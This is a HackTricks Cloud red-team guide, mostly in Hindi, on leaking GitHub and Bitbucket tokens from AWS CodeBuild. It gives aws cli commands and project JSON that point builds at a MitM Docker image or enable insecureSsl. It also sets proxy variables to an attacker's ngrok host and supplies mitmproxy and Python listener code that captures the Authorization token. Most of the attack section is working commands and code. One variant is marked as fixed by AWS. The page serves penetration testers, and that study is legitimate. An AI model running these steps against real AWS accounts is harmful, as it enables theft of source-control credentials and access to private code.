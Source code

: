 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

पहले, जांचें कि क्या कोई स्रोत क्रेडेंशियल्स कॉन्फ़िगर किए गए हैं जिन्हें आप लीक कर सकते हैं:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

यदि आप पाते हैं कि उदाहरण के लिए Github के लिए प्रमाणीकरण खाते में सेट है, तो आप **exfiltrate** उस **access** (**GH token या OAuth token**) को कोडबिल्ड को **एक विशिष्ट डॉकर इमेज** का उपयोग करके प्रोजेक्ट के निर्माण को चलाने के लिए बना सकते हैं।

इसके लिए आप **एक नया कोडबिल्ड प्रोजेक्ट** बना सकते हैं या **मौजूदा एक का वातावरण** बदल सकते हैं ताकि **डॉकर इमेज** सेट की जा सके।

आप जो डॉकर इमेज उपयोग कर सकते हैं वह है [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)। यह एक बहुत बुनियादी डॉकर इमेज है जो **env variables `https_proxy`**, **`http_proxy`** और **`SSL_CERT_FILE`** सेट करेगी। यह आपको **`https_proxy`** और **`http_proxy`** में निर्दिष्ट होस्ट के अधिकांश ट्रैफ़िक को इंटरसेप्ट करने की अनुमति देगा और **`SSL_CERT_FILE`** में निर्दिष्ट SSL CERT पर भरोसा करेगा।

1. **अपना खुद का डॉकर MitM इमेज बनाएं और अपलोड करें**
* अपने प्रॉक्सी IP पते को सेट करने और अपने SSL प्रमाणपत्र को सेट करने के लिए रेपो के निर्देशों का पालन करें और **डॉकर इमेज बनाएं**।
* **`http_proxy`** सेट न करें ताकि मेटाडेटा एंडपॉइंट के लिए अनुरोधों को इंटरसेप्ट न किया जा सके।
* आप **`ngrok`** का उपयोग कर सकते हैं जैसे `ngrok tcp 4444` अपने होस्ट के लिए प्रॉक्सी सेट करने के लिए।
* एक बार जब आपके पास डॉकर इमेज बन जाए, तो **इसे एक सार्वजनिक रेपो** (Dockerhub, ECR...) में अपलोड करें।
2. **पर्यावरण सेट करें**
* **एक नया कोडबिल्ड प्रोजेक्ट** बनाएं या **मौजूदा एक का वातावरण** संशोधित करें।
* प्रोजेक्ट को **पूर्व में उत्पन्न डॉकर इमेज** का उपयोग करने के लिए सेट करें।

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **अपने होस्ट में MitM प्रॉक्सी सेट करें**

* जैसा कि **Github रेपो** में संकेतित है, आप कुछ ऐसा उपयोग कर सकते हैं:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy संस्करण 9.0.1 का उपयोग किया गया था**, रिपोर्ट किया गया कि संस्करण 10 के साथ यह काम नहीं कर सकता।
{% endhint %}

4. **बिल्ड चलाएँ और क्रेडेंशियल्स कैप्चर करें**

*   आप **Authorization** हेडर में टोकन देख सकते हैं:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

यह aws cli से कुछ इस तरह किया जा सकता है

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** प्रोजेक्ट्स में एक सेटिंग होती है जिसे **`insecureSsl`** कहा जाता है, जो वेब में छिपी होती है, आप इसे केवल API से बदल सकते हैं।\
इसे सक्षम करने से, Codebuild को प्लेटफ़ॉर्म द्वारा प्रदान किए गए प्रमाणपत्र की **जांच किए बिना** रिपॉजिटरी से कनेक्ट करने की अनुमति मिलती है।

* सबसे पहले, आपको वर्तमान कॉन्फ़िगरेशन को कुछ इस तरह से सूचीबद्ध करने की आवश्यकता है:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* फिर, एकत्रित जानकारी के साथ आप प्रोजेक्ट सेटिंग **`insecureSsl`** को **`True`** में अपडेट कर सकते हैं। निम्नलिखित मेरे प्रोजेक्ट को अपडेट करने का एक उदाहरण है, अंत में **`insecureSsl=True`** पर ध्यान दें (यह एकमात्र चीज है जिसे आपको एकत्रित कॉन्फ़िगरेशन से बदलने की आवश्यकता है)।
* इसके अलावा, env वेरिएबल **http\_proxy** और **https\_proxy** को भी जोड़ें जो आपके tcp ngrok की ओर इशारा करते हैं जैसे: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* फिर, प्रॉक्सी वेरिएबल्स (http\_proxy और https\_proxy) द्वारा इंगित पोर्ट में [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) से बुनियादी उदाहरण चलाएँ।
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* अंत में, **Build the project** पर क्लिक करें, **credentials** **स्पष्ट पाठ** (base64) में mitm पोर्ट पर **भेजे जाएंगे**:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### ~~HTTP प्रोटोकॉल के माध्यम से~~

{% hint style="success" %}
**इस भेद्यता को AWS ने 2023 के फरवरी के 20वें सप्ताह में किसी समय (मुझे लगता है शुक्रवार को) ठीक किया। इसलिए एक हमलावर इसका दुरुपयोग नहीं कर सकता :)**
{% endhint %}

एक हमलावर जिसके पास **CodeBuild में उच्च अनुमतियाँ हैं, वह Github/Bitbucket टोकन** लीक कर सकता है जो कॉन्फ़िगर किया गया है या यदि अनुमतियाँ OAuth के माध्यम से कॉन्फ़िगर की गई हैं, तो **कोड तक पहुँचने के लिए उपयोग किया जाने वाला अस्थायी OAuth टोकन**।

* एक हमलावर **http\_proxy** और **https\_proxy** पर्यावरण चर को CodeBuild प्रोजेक्ट में जोड़ सकता है जो उसकी मशीन की ओर इशारा करते हैं (उदाहरण के लिए `http://5.tcp.eu.ngrok.io:14972`)।

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* फिर, GitHub रिपॉजिटरी का URL HTTP का उपयोग करने के लिए बदलें, HTTPS के बजाय, उदाहरण के लिए: `http://github.com/carlospolop-forks/TestActions`
* फिर, प्रॉक्सी चर (http\_proxy और https\_proxy) द्वारा इंगित पोर्ट में [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) से बुनियादी उदाहरण चलाएँ।
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* अंत में, **प्रोजेक्ट बनाएं** पर क्लिक करें, **क्रेडेंशियल्स** **स्पष्ट पाठ** (base64) में mitm पोर्ट पर **भेजे जाएंगे**:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
अब एक हमलावर अपने मशीन से टोकन का उपयोग कर सकेगा, सभी विशेषाधिकारों की सूची बना सकेगा और (ab) सीधे CodeBuild सेवा का उपयोग करने की तुलना में इसे अधिक आसानी से उपयोग कर सकेगा।
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
